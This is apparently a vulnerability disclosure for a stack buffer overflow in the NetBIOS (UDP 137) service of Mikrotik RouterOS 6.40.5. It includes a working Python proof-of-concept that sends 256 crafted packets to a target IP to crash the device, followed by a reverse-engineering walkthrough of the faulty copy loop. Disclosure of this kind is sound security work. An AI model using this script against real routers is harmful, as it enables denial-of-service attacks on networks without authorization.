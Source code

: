 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)

Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)

Debugging shows that the first check is passed successfully.
![image](https://github.com/user-attachments/assets/82f9e6f2-476f-45a3-9cb9-04690eaa75a6)

Next, 0x32 bytes of data are copied from the received UDP packet.
![image](https://github.com/user-attachments/assets/8c8bfff6-6273-44c5-bac1-4f883b314e4b)

The result after copying is as follows:
![image](https://github.com/user-attachments/assets/f5ae48a0-d8c7-4476-bad7-eb80ee408f48)

Later, the sub_8054607 function is called, where the length of the first copy operation is determined by the 13th byte after the previously copied data. The copying starts just after the 0x20-byte offset.
![image](https://github.com/user-attachments/assets/ce777607-1c89-44e9-b0a9-fa1cbd45a3fe)

After the first round of copying is completed — that is, when 0x20 bytes have been copied — the byte immediately following the last character of this round is treated as the length for the next round of copying. In this case, the value is 0x41.
![image](https://github.com/user-attachments/assets/19d84d5b-cddc-4262-9c44-560d034471d9)

Then proceed to start the next round of assignment
![image](https://github.com/user-attachments/assets/c12c4910-de26-488f-a5af-74a62a61a5b3)

Continue to assign values later:
![image](https://github.com/user-attachments/assets/a6a6bb3b-eeb2-4845-aff9-984668764711)

As long as the value retrieved from memory this time is not 0 (indicating the length of the next assignment), the assignment will continue downward until the retrieved length is 0, and then the loop will exit. However, as mentioned earlier, the length we can control is only 0x32 bytes, so we need to make use of the values that already exist on the stack in the program.

Finally, call the end position of the sub_8054607 function to check the stack space at this time and the position of the return value of the upper-level function (because the destination address of the assignment is inside the stack of the upper-level function) :
![image](https://github.com/user-attachments/assets/b8ac0682-b0c7-4f3f-8d4b-1c2f19b3d245)

Finally, the function returned with an error and exited:
![image](https://github.com/user-attachments/assets/12238d33-ea41-499d-926d-a9d63259075c)

To increase the probability of denial of service, we can try to blast the first or second round multiple times... .. By combining the lengths, try different numbers of rounds as many times as possible to make the number of cycles of this round as many as possible each time the explosion occurs. Finally, the purpose of overwriting the return value of the upper-level function is achieved.
The idea of the blasting script: We set the assignment length of the first round to 0x24：

![image](https://github.com/user-attachments/assets/5477f55a-2133-4991-9a93-6b1479be4874)

It is followed by 23 bytes, and the byte immediately following is the length of the second round of assignment. We can perform an explosion to maximize the use of the 1 to 255 pieces of data on the original stack to explosion the length of the third round of assignment (this will continue to affect the subsequent rounds and thus try more combinations) :
Compared with the non-blasting script: The overflow length of one attempt is not sufficient to cover the return address of the upper-level function sub_8060430
![image](https://github.com/user-attachments/assets/89096755-8a90-4787-9e19-fd0c7269f17f)

Run the blasting script at this time:
Finally, there will be a combination that overwrites the return value of the upper-level function, resulting in dos
![image](https://github.com/user-attachments/assets/f2e59d8b-84fa-4a7c-aa54-0a5c198b4e42)
![image](https://github.com/user-attachments/assets/eba41375-edfe-473f-b1d1-bc5362a8a34f)








